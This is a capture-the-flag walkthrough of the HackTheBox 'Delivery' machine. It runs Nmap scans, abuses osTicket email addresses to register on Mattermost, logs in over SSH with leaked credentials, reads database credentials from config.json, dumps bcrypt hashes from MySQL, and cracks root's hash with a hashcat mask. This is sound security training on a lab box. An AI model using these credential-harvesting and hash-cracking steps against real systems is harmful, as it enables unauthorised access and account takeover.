## Machine Information



Delivery is rated as an easy machine on HackTheBox. An initial scan reveals several open ports. We find a helpdesk system powered by osTicket on port 80, and a chat application called Mattermost on port 8065. After raising support tickets and creating accounts we gain access to Mattermost where we find credentials for SSH access. Once connected to the server we enumerate and find credentials for an sql installation. This gives us the root users password hash, which we crack with Hashcat to complete the box.

<!--more-->

Skills required are basic port enumeration and OS exploration knowledge. Skills learned are using Hashcat masks to generate wordlist.

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu) |
| Link To Machine | [HTB - Easy - Delivery](https://www.hackthebox.eu/home/machines/profile/308) |
| Machine Release Date | 9th Jan 2021 |
| Date I Completed It | 20th May 2021 |
| Distribution Used | Kali 2021.1 – [Release Info](https://www.kali.org/blog/kali-linux-2021-1-release) |

## Initial Recon

As always let's start with Nmap:

```text
┌──(root💀kali)-[~/htb/delivery]
└─# ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.222 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(root💀kali)-[~/htb/delivery]
└─# nmap -p$ports -sC -sV -oA delivery 10.10.10.222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 10:08 BST
Nmap scan report for 10.10.10.222
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 20 May 2021 08:30:31 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 54woobaw3jyo7koeadr6jewuqr
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 20 May 2021 09:08:34 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 20 May 2021 09:08:34 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.38 seconds
```

We find three open ports. SSH on port 22, that can be left until later. Nginx on port 80 presumably running a website. And something unknown on port 8065. Let's start with port 80:



Not a lot happening on the homepage. Hovering over the HELPDESK link shows there is a subdomain called helpdesk.delivery.htb, let's add this to our hosts file:

```text
┌──(root💀kali)-[~/htb/delivery]
└─# sed -i '/10.10.10.222 delivery.htb/ s/$/ helpdesk.delivery.htb/' /etc/hosts
```

Now clicking on it we see this page:



The helpdesk system is using osTicket. First instinct is to try and open a new ticket. Clicking the link takes me to a page where I can create a new one:



I filled in the form and clicked Create Ticket, which takes me to this page:



A ticket is created and I've been given a temporary email address and matching ticket ID. Clicking on Check Ticket Status link I can now use the email address I created the ticket with and the ticket ID given:



When I get in I see my ticket has been created, but there isn't an obvious way to progress:



Going back to the homepage I try clicking the Contact Us section:



Here we have a link to the osTicket support page we just visited. However the text says we will have access to the helpsystem once we have a @delivery.htb email address. Then there is a link to MatterMost which is on port 8065. So now we know what was on that mysterious port.

I hadn't heard of [Mattermost](https://mattermost.com/) before, but it looks to be a collaboration/chat type application. Clicking the link takes me here:



Clicking on the link to create a new account takes me here:



I've filled in the email address given by the help system, clicking Create Account looks to have worked:



Going back to the help system my ticket has been updated:



It says registration successful, and there's a URL to use to verify my email address. Pasting that in to a new tab on Firefox gives me an Email Verified message:



I can log in to Mattermost with the temporary email address and password I've used to create the account, and end up at the dashboard:



We can see an interesting message from root on the first page:

```text
@developers Please update theme to the OSTicket before we go live. Credentials to the server are maildeliverer:<HIDDEN> 
```

Let's try them:

```text
┌──(root💀kali)-[~/htb/delivery]
└─# ssh maildeliverer@10.10.10.222                                             
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ECDSA key fingerprint is SHA256:LKngIDlEjP2k8M7IAUkAoFgY/MbVVbMqvrFA6CUrHoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu May 20 04:31:08 2021 from 10.10.16.12

maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

We're in, that was nice and easy!

Let's see what's in our home folder:

```text
maildeliverer@Delivery:~$ ls -la
lrwxrwxrwx 1 root          root             9 Dec 28 07:04 .bash_history -> /dev/null
-rw-r--r-- 1 maildeliverer maildeliverer  220 Dec 26 09:01 .bash_logout
-rw-r--r-- 1 maildeliverer maildeliverer 3526 Dec 26 09:01 .bashrc
drwx------ 3 maildeliverer maildeliverer 4096 Dec 28 06:58 .gnupg
-rw------- 1 maildeliverer maildeliverer  271 May 20 04:58 .mysql_history
-rw-r--r-- 1 maildeliverer maildeliverer  807 Dec 26 09:01 .profile
-r-------- 1 maildeliverer maildeliverer   33 May 20 04:30 user.txt
```

We have the user flag, let's grab it before moving on:

```text
maildeliverer@Delivery:~$ cat user.txt 
<HIDDEN>
```

Let's see what file and folders our user has permissions for, in case there is anything interesting to look at:

```text
maildeliverer@Delivery:/dev/shm$ find / -user maildeliverer -perm -400 -not -path "/proc/*" -not -path "/run/*" -not -path "/sys/*" 2> /dev/null
/dev/shm/files.txt
/dev/pts/2
/dev/pts/1
/home/maildeliverer
/home/maildeliverer/.bash_logout
/home/maildeliverer/.profile
/home/maildeliverer/.bashrc
/home/maildeliverer/user.txt
/home/maildeliverer/.gnupg
/home/maildeliverer/.gnupg/private-keys-v1.d
/home/maildeliverer/.viminfo
/home/maildeliverer/.mysql_history
```

I've used -not to reduce the noise for directories I'm not interested in. With what's left there's nothing obvious for this user, let's see what other users we have:

```text
maildeliverer@Delivery:/dev/shm$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mysql:x:110:118:MySQL Server,,,:/nonexistent:/bin/false
mattermost:x:998:998::/home/mattermost:/bin/sh
```

I've cut out the users we can ignore. I see one called mattermost, which is the name of the system we got access to earlier. Let's have a look for anything interesting on the file system for this user:

```text
maildeliverer@Delivery:/dev/shm$ find / -user mattermost -type d -perm -400 -not -path "/proc/*" 2> /dev/null
/opt/mattermost
/opt/mattermost/i18n
/opt/mattermost/client
/opt/mattermost/client/i18n
/opt/mattermost/client/images
/opt/mattermost/client/images/favicon
/opt/mattermost/client/images/browser-icons
/opt/mattermost/client/images/cards
/opt/mattermost/client/emoji
/opt/mattermost/client/plugins
/opt/mattermost/client/files
/opt/mattermost/client/files/code_themes
/opt/mattermost/logs
/opt/mattermost/templates
/opt/mattermost/fonts
/opt/mattermost/data
/opt/mattermost/data/users
/opt/mattermost/plugins
/opt/mattermost/bin
/opt/mattermost/prepackaged_plugins
/opt/mattermost/config
```

Looking around in the mattermost directory I find an interesting file in the config folder:

```text
maildeliverer@Delivery:/opt/mattermost/config$ ls -la
total 36
drwxrwxr-x  2 mattermost mattermost  4096 Dec 26 09:23 .
drwxrwxr-x 12 mattermost mattermost  4096 Dec 26 09:24 ..
-rw-rw-r--  1 mattermost mattermost   922 Dec 18 08:52 cloud_defaults.json
-rw-rw-r--  1 mattermost mattermost 18774 May 20 04:30 config.json
-rw-rw-r--  1 mattermost mattermost   243 Dec 18 08:52 README.md
```

The config.json file is long, but searching it for "user" reveals this:

```text
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep -B 5 -A 5 user
        "EnableXToLeaveChannelsFromLHS": false,
        "UserStatusAwayTimeout": 300,
        "MaxChannelsPerTeam": 2000,
        "MaxNotificationsPerChannel": 1000000,
        "EnableConfirmNotificationsToChannel": true,
        "TeammateNameDisplay": "username",
        "ExperimentalViewArchivedChannels": true,
        "ExperimentalEnableAutomaticReplies": false,
        "ExperimentalHideTownSquareinLHS": false,
        "ExperimentalTownSquareIsReadOnly": false,
        "LockTeammateNameDisplay": false,
--
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:<HIDDEN>@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
```

We have sql settings, let's try and log in to it locally:

```text
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p'<HIDDEN>' mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 353
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [mattermost]>
```

That worked, let's look at the databases:

```text
MariaDB [mattermost]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
```

Let's look at the mattermost one first:

```test
MariaDB [mattermost]> use mattermost;
Database changed

MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
<SNIP>
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.000 sec)
```

Lot's of tables, but users is what we're interested in:

```text
MariaDB [mattermost]> select * from Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+--------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username                         | Password                                                     | AuthData | AuthService | Email                   | EmailVerified | Nickname | FirstName          | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                   | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+--------------------------------------------------------------------------------------------+-----------+-----------+
| 1tdemy8ihby3z8qutmjn55z98w | 1621502572204 | 1621502572204 |        0 | pppppp                           | $2a$10$zeyWCljXan6dB19R8xwzdeFoLk9/xqArxgu3RJl39FxrFVYXkJM8. | NULL     |             | 8569304@delivery.htb    |             0 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1621502572204 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}                 |         0 |           |
| 3mix7otk5bdeucfzn7y5zp8koy | 1621505082885 | 1621505284638 |        0 | pencer.io                        | $2a$10$Ps5byJoZQDvkEQ.7BLtFzuYXWXJaDNUyUOLLGWJVYt0W/zIEGzxZW | NULL     |             | 2745007@delivery.htb    |             1 |    
```

Not really readable like that, let's select what we want now we can see the column names:

```text
MariaDB [mattermost]> SELECT username, password FROM Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| pppppp                           | $2a$10$zeyWCljXan6dB19R8xwzdeFoLk9/xqArxgu3RJl39FxrFVYXkJM8. |
| pencer.io                        | $2a$10$Ps5byJoZQDvkEQ.7BLtFzuYXWXJaDNUyUOLLGWJVYt0W/zIEGzxZW |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| r1c4rd0                          | $2a$10$dNsN/QGmRVdElviAzmmJfOg3w0B.WKxFbxC0trhcC8h7gqI06zbvC |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| haxor1337                        | $2a$10$pQ.xhadY2hm/Enfut4MGBuXQLbgZIX6WB/EH4X63x3uwMFj6uMX8G |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| passssss                         | $2a$10$7WDhwTi78g5w316y7ufa0eBZLjpnmem4rmSsGFREt/c406Kt/v9YS |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)
```

I can see the login I created, plus some that must be other hackers on here at the same time. Of course we're interested in root so let's grab that hash.

I tried hashcat using the rockyou wordlist, but that didn't get me any where. After a look around I revisited the Mattermost dashboard where we had found the username and password earlier. On there I see another comment I'd missed before:

```text
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

I wish I'd read that before wasting time with rockyou! Any way here's how I did it now I've read the hint.

First confirm hash type:



Next use a [mask](https://hashcat.net/wiki/doku.php?id=mask_attack#charsets_in_hex) to incrementally append numbers on the end of the given password:

```text
┌──(root💀kali)-[~/htb/delivery]
└─# hashcat -a 3 -m 3200 hash.txt 'PleaseSubscribe!'?d?d       
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8850H CPU @ 2.60GHz, 1423/1487 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Brute-Force

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:<HIDDEN>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Thu May 20 11:59:45 2021 (0 secs)
Time.Estimated...: Thu May 20 11:59:45 2021 (0 secs)
Guess.Mask.......: PleaseSubscribe!?d?d [18]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       38 H/s (6.45ms) @ Accel:4 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 16/100 (16.00%)
Rejected.........: 0/16 (0.00%)
Restore.Point....: 8/100 (8.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidates.#1....: PleaseSubscribe!78 -> PleaseSubscribe!34

Started: Thu May 20 11:59:42 2021
Stopped: Thu May 20 11:59:47 2021
```

It took me a while to get that mask correct. It would have been quicker to use a rule set like [this one](https://github.com/praetorian-inc/Hob0Rules) which contains all the common variations.

With the hash cracked we can now switch to root and grab the flag:

```text
maildeliverer@Delivery:/opt/mattermost/config$ su - root
Password: 
root@Delivery:~# ls -la
total 44
drwx------  5 root root 4096 Jan  5 06:39 .
drwxr-xr-x 18 root root 4096 Jan  5 06:06 ..
lrwxrwxrwx  1 root root    9 Dec 28 07:04 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Dec 26 09:33 .cache
drwx------  3 root root 4096 Dec 27 13:41 .gnupg
-rwxr-x---  1 root root  103 Dec 26 11:26 mail.sh
-r--------  1 root root  382 Dec 28 07:02 note.txt
-rw-r-----  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root 1499 Dec 26 10:55 py-smtp.py
-r--------  1 root root   33 May 20 04:30 root.txt
drwxr-xr-x  2 root root 4096 Dec 27 14:28 .vim

root@Delivery:~# cat root.txt 
<HIDDEN>
```

I hope this walk through helped, and that you enjoyed this fun machine made by [Ippsec](https://www.hackthebox.eu/home/users/profile/3769).

See you next time.
